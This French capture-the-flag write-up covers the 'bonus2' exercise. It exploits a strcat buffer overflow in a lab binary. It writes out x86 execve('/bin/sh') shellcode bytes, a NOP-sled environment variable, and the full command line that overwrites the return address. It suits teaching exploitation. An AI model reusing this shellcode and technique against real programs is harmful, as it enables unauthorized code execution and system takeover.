 ## bonus2

En désassemblant le binaire on observe deux fonctions: `main()` et
`greetuser()`. On voit également un appel a `getenv("LANG")`, plusieurs appel a `memcmp()`, et un appel a `strcat()` dans la fonction `greetuser()`.

Le binaire prend deux arguments qu'il va copier dans des buffers avec
`strncpy()`.

Les appels a `memcmp()` évalue la valeur de `LANG`, pour les string `nl` et
`fi`, et définis la globale `_language` a `0`, `1` ou `2`.

La string qui est affiché en sortie change selon la valeur de `_language`, mais
l'appel a `strcat()` est éffectué peut importe cette valeur.

Définissont donc la variable d'environnement `LANG` a `fi`, et lancons le
binaire avec gdb.

On va essayer de faire overflow l'appel a `strcat()`.

![image](https://user-images.githubusercontent.com/29956389/90021177-32556200-dcb1-11ea-81cc-3a22d43af3cc.png)

Le segfault est causé par le deuxieme argument. Localisons l'offset:

![image](https://user-images.githubusercontent.com/29956389/90021443-90824500-dcb1-11ea-83f2-604ed34a7c32.png)

![image](https://user-images.githubusercontent.com/29956389/90021555-b871a880-dcb1-11ea-8385-e44c453d2c43.png)

L'offset est a 18.

On insère donc notre shellcode + nopsled dans l'environnement:

`$ echo -ne
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`$ export SLEDCODE=$(python -c 'print "\x90"*420')$(cat /tmp/shellcode.bin)`

On localise l'adresse du sled:

`(gdb)> x/4s *((char**)environ)`

Commande a laquelle nous ajoutons +1 jusqu'a trouver l'adresse de la variable
SLEDCODE, puis nous cherchons l'adresse de la variable suivante.

Nous faisons ensuite la difference de ces deux adresses pour avoir la marge de
notre sled, puis nous divison cette difference par deux pour aller au millieu,
et enfin nous ajoutons le resultat de cette division a l'adresse de la variable
SLEDCODE pour diriger notre code au millieu de notre nopsled.

une fois cette addresse obtenue, nous la faisons passer dans le second argument
de notre exploit: 

`$ ~/bonus2 $(python -c 'print [40 bytes de remplissage]') $(python -c 'print [18 bytes de remplissage] + [Adresse nopsled]')`

Soit par exemple:

`$ ./bonus2 $(python -c 'print "A"*40') $(python -c 'print "i"*18 +
"\x7d\xf8\xff\xbf"')`

![image](https://user-images.githubusercontent.com/29956389/90023240-ca544b00-dcb3-11ea-9769-3236d13ffefd.png)
